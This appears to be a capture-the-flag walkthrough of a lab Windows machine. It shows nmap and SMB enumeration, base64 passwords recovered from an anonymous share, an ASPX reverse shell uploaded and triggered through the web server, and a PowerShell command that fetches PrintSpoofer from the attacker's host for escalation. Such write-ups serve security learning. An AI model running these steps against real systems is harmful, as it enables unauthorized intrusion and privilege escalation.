










# Relevant 

##### Written: 23/10/2021

##### IP address: 10.10.72.53

======================

### User Flag

We first start off with a basic **nmap** scan on the target machine. This will only target the top 1000 ports.

```
sudo nmap -sC -sV -vv 10.10.72.53
```

**Results:**



From the results, we can see that the following ports are open:

**Port 80** - HTTP Web server

**Port 135** - Windows RPC

**Port 139** - SMB Server

**Port 445** - SMB Server

**Port 3389** - Microsoft Terminal Services

<br>

Let's first take a look at the HTTP server.


Doing some manual enumeration of the website, I was unable to find anything of interest. The enumeration included checking of the source code and other low-hanging fruit such as the robots.txt file. Clickable elements within the webpage also only brought us to other websites that were not of use to us.

Next, I tried running a **Gobuster** directory scan on the website, but unfortunately I was unable to find any hidden directories.

<br>

Hitting a dead end, I decided to move on to enumerating the Samba server that is running on port 139 and 445.

At first, I tried to use a Samba enumeration tool called **enum4linux**, but it was unable to scan the server.

``` 
enum4linux 10.10.72.53
```



<br>

Next, I tried using **smbclient** to list out the shares that were accessible on the server. This can be done with the `-L` tag.

```
smbclient -L 10.10.72.53
```


Nice! Looks like there are a few shares that we can potentially log into if they have **anonymous access** enabled. I tried to log into all of the shares, but the only shares that I could successfully log into were the **IPC$** and **nt4wrksv** shares.

---

*Note: While enum4linux did not work, we can alternatively use nmap to run a smb enumeration scan on our target. The command is:*

``` 
nmap --script smb-enum-shares.nse -p445 <host>
```

---

While the **IPC$** share did not contain anything, the **nt4wrksv** share actually contained a **passwords.txt** file.


<br>

I downloaded the text file onto my local machine. The contents are:



Looks like the text file contained user passwords that were **base64-encoded**. After decoding them, we get the following user credentials:

* **Bob: !P@$$W0rD!123**

* **Bill: Juw4nnaM4n420696969!$$$**

With these credentials, I tried to log into the other Samba shares, but unfortunately they did not work. I also tried to log into the RDP service, but that was to no avail as well.

<br>

Hitting yet another dead end, I decided to run a **full nmap** scan. Perhaps there are other ports open on the machine that were not detected initially.

```
sudo nmap -sC -sV -vv -p- -T4 --defeat-rst-ratelimit 10.10.72.53
```

*The -T4 and the --defeat-rst-ratelimit tags are used to speed up the nmap scan greatly. We would not use these settings in a real-world application as it is very noisy. However, since we are scanning within a controlled CTF environment, we can go wild :)*

**Results:**


Apart from the ports that we scanned earlier, there are now 3 new open ports that were detected:

**Port 49663** - Another HTTP server

**Port 49667** - Windows RPC

**Port 49669** - Windows RPC

<br>

What caught my attention was the HTTP server running on port **49663**. Let's take a look:


This brings us to the same webpage as before.

However, running a **Gobuster** directory scan this time reveals a subdirectory called **/nt4wrksv**!

---

*Note: The **/nt4wrksv** entry is actually located at the very bottom of the dirbuster medium directory wordlist. Hence, I had to wait for Gobuster to completely go through the wordlist before it managed to detect this subdirectory! This was a lesson on patience as I would have normally assumed that there were no more potential results once Gobuster had gone through about half of the wordlist, and would have stopped the scan. Fortunately, I let Gobuster finish the scan this time.*

---



As this directory has the same name as the Samba share from earlier, I assumed that directory is actually bringing us to the  share itself.

To test this, I tried visiting **/nt4wrksv/passwords.txt**:



Sure enough, the passwords.txt file in the SMB share was displayed! This is great as that means we can potentially obtain RCE by uploading a file into the share and accessing it via the webpage. With this, we can open up a reverse shell and gain a foothold into the target machine.

<br>



Using **Wappalyzer** on the main webpage, I found out that the framework that was being used was **Microsoft ASP.NET**. As such, we will have to upload an **ASPX reverse shell** file. I found such a file here: https://github.com/borjmz/aspx-reverse-shell

Using `smbclient`, I then uploaded the reverse shell into the **nt4wrksv** share. 


Once that was done, I opened up a netcat listener and opened the reverse shell by accessing **/nt4wrksv/shell.aspx**.


And we're in!

<br>

With that, we can obtain the user flag that is located in the **Desktop** of the user **Bob**:



---

### Root Flag

Next, we have to find a way to escalate our privileges. Let's first check out the privileges that are enabled on our current account. We can do this with the `whoami /priv` command:



Interesting! Looks like we have the **SeImpersonatePrivilege** privilege enabled. With this privilege enabled, we can use the **PrintSpoofer** tool to escalate our privileges. (https://github.com/dievus/printspoofer)

*More information on how PrintSpoofer works can be found here: https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/*

<br>

We upload the PrintSpoofer tool onto our target machine by using Powershell to download it from a Python HTTP server that we have set up on our local machine. The command to download the tool is:

```
powershell "Invoke-WebRequest -UseBasicParsing <YOUR_IP_HERE>/PrintSpoofer.exe -OutFile PrintSpoofer.exe"
```

Once the tool is downloaded, we can simply run it with:

```
.\PrintSpoofer.exe -i -c cmd 
```

This will open up a cmd prompt with root privileges.



And we have successfully escalated our privileges! With that, we can obtain the root flag that is located in the **Desktop** of the **Administrator** account:



